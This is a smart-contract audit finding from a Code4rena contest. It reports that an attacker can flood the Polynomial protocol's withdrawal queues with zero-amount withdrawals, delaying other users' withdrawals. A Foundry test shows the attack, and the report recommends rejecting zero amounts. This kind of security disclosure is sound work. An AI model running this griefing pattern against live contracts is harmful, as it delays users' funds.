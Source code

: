 # Original link
https://github.com/code-423n4/2023-03-polynomial-findings/issues/122
# Lines of code

https://github.com/code-423n4/2023-03-polynomial/blob/aeecafc8aaceab1ebeb94117459946032ccdff1e/src/LiquidityPool.sol#L264
https://github.com/code-423n4/2023-03-polynomial/blob/aeecafc8aaceab1ebeb94117459946032ccdff1e/src/LiquidityPool.sol#L284
https://github.com/code-423n4/2023-03-polynomial/blob/aeecafc8aaceab1ebeb94117459946032ccdff1e/src/KangarooVault.sol#L227
https://github.com/code-423n4/2023-03-polynomial/blob/aeecafc8aaceab1ebeb94117459946032ccdff1e/src/KangarooVault.sol#L269


# Vulnerability details

## Impact

The [queueWithdraw()](https://github.com/code-423n4/2023-03-polynomial/blob/aeecafc8aaceab1ebeb94117459946032ccdff1e/src/LiquidityPool.sol#L264) function helps to the user to queue his withdrawals and the [processWithdraws()](https://github.com/code-423n4/2023-03-polynomial/blob/aeecafc8aaceab1ebeb94117459946032ccdff1e/src/LiquidityPool.sol#L284) function helps to process all the users withdrawals.

The problem here is that the attacker can flood the [withdrawalQueue](https://github.com/code-423n4/2023-03-polynomial/blob/aeecafc8aaceab1ebeb94117459946032ccdff1e/src/LiquidityPool.sol#L271) with zero amounts, causing the ```processWithdraws()``` cost more gas to process the user withdrawals. The same behaivour is happening in the [KangarooVault.sol::initiateWithdrawal()](https://github.com/code-423n4/2023-03-polynomial/blob/aeecafc8aaceab1ebeb94117459946032ccdff1e/src/KangarooVault.sol#L227).

The withdrawals can be delayed by the attacker which generates mistrust in the protocol to the users.

## Proof of Concept

I created a test in ```LiquidityPool.Deposits.t.sol``` where it is possible to flood the ```withdrawalQueue``` with zero amount via the ```queueWithdraw()``` function.

```solidity
function testZeroQueueWithdraw() public {
    // It is possible to flood the withdrawalQueue with zero amounts in the queueWithdraw()
    // causing a DOS in the processWithdraws()
    //
    // 1. Deposit some money in order to have totalFunds
    //
    susd.mint(user_2, 1e20);
    vm.startPrank(user_2);
    susd.approve(address(pool), 1e20);
    pool.deposit(69e18, user_2);
    vm.stopPrank();
    //
    // 2. Call queueWithdraw with zero withdraw amount
    //
    pool.queueWithdraw(0, user_1);
    pool.queueWithdraw(0, user_2);
    pool.queueWithdraw(0, user_3);
    pool.queueWithdraw(0, address(1337));
    //
    // 3. Assert queuedWithdrawalHead() and nextQueuedWithdrawalId()
    //
    assertEq(pool.queuedWithdrawalHead(), 1);
    assertEq(pool.nextQueuedWithdrawalId(), 5);
    //
    // 4. Call processWithdraws()
    //
    vm.warp(block.timestamp + pool.minWithdrawDelay());
    pool.processWithdraws(1);
    //
    // 5. Assert the increase of queuedWithdrawalHead()
    //
    assertEq(pool.queuedWithdrawalHead(), 2);
}
```

## Tools used

VScode

## Recommended Mitigation Steps

Check the zero amount value in the ```LiquidityPool.sol::queueWithdraw()``` and ```KangarooVault.sol::initiateWithdrawal()``` functions.